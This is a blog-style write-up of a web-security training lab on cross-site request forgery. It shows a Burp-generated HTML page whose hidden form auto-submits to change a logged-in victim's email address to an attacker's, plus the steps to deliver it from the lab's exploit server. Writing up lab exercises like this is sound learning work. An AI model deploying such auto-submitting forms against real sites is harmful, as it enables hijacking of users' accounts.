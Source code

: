 ```yaml
---
layout: post
title:  "CSRF vulnerability with no defenses"
date:   2024-10-13 12:20:54 +0530
---
```


## Objective 

This lab's email change functionality is vulnerable to CSRF.

To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.

You can log in to your own account using the following credentials: wiener:peter

## Solution

Just like any other labs, this lab is actually kinda easy because this lab is of practitioner level and the same functionality is vulnerable to CSRF attack and this is how request and response looks like 

![]({{ site.baseurl }}/assets/images/csrf-39.png)

As you can observe in the above image, there is a lack of CSRF token being there in both the header and in the post body 

Let's generate the CSRF POC through the burp engagement tools 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a3b006e04b4243b80d1bc53003b0033.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attacker&#64;attacker&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Paste the above POC into the exploit server, and then `Store it -> Deliver the exploit to victim` and that solves the lab 

![]({{ site.baseurl }}/assets/images/csrf-40.png)